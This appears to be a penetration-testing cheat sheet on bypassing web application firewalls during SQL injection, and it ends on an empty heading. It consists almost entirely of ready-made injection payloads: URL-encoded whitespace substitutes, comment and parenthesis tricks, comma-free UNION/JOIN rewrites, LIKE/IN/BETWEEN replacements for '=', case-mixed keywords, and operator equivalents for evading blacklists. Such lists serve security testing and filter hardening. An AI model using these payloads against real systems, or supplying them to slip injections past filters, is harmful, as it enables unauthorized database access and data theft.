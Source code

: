 # WAF Bypass

## No Space \(%20\) - bypass using whitespace alternatives

Bypass using whitespace alternatives

```text
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

## No Whitespace - bypass using comments

```text
?id=1/*comment*/and/**/1=1/**/--
```

## No Whitespace - bypass using parenthesis

```text
?id=(1)and(1)=(1)--
```

## No Comma - bypass using OFFSET, FROM and JOIN

```text
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

## No Equal - bypass using LIKE/NOT IN/IN/BETWEEN

```text
?id=1 and substring(version(),1,1)like(5)
?id=1 and substring(version(),1,1)not in(4,3)
?id=1 and substring(version(),1,1)in(4,3)
?id=1 and substring(version(),1,1) between 3 and 4
```

## Blacklist using keywords - bypass using uppercase/lowercase

```text
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

## Blacklist using keywords case insensitive - bypass using an equivalent operator

```text
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, BETWEEN, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```

## 

